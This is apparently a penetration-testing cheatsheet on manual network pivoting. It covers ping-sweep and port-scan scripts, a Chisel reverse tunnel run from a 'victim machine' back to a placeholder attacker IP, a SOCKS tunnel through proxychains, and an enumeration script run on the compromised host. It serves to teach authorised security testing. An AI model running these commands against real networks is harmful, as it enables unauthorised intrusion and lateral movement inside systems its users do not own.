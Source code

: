 # Pivoting

Pivoting is a crucial technique in ethical hacking and penetration testing, allowing attackers to extend their reach within a network. The provided Cheatsheet outlines the process of pivoting manually, without relying on tools like Metasploit. Let's break down the steps:

#### 1. Discover Active Machines

* Use the `host_discovery.sh` script to ping all IPs on the specified network.
*   Example:

    ```bash
    bash host_discovery.sh 10.10.2
    ```

#### 2. Discover Open Ports

* Utilize the `port_discovery.sh` script to discover open ports on the active machines.
*   Example:

    ```bash
    bash port_discovery.sh <IP_ADDRESS>
    ```

#### 3. Port Forwarding with Chisel

* Download and use Chisel for port forwarding. Transfer the Chisel binary to the victim machine.
*   On the attacker's machine:

    ```bash
    ./chisel server --reverse -p 1234
    ```
*   On the victim machine:

    ```bash
    ./chisel client <ATTACKER_IP>:1234 R:80:<TARGET_IP>:80
    ```

#### 4. Tunneling Networks

<figure><img src="../../.gitbook/assets/image (7) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* Create a tunnel between networks using Chisel for network pivoting.
*   On the attacker's machine:

    ```bash
    ./chisel client <ATTACKER_IP>:1234 R:socks
    ```
* Modify `/etc/proxychains.conf` to use the created tunnel.

<figure><img src="../../.gitbook/assets/image (9) (1) (1) (1).png" alt=""><figcaption><p>uncomment this line</p></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (10) (1) (1) (1).png" alt=""><figcaption><p>in the end of the file </p></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (11) (1) (1) (1).png" alt=""><figcaption><p>Result</p></figcaption></figure>

#### Automation with Pivoting\_Enum Bash Script

* Transfer and execute the `pivoting.sh` script on the victim machine.
*   Example:

    ```bash
    bash pivoting.sh NETWORK
    ```
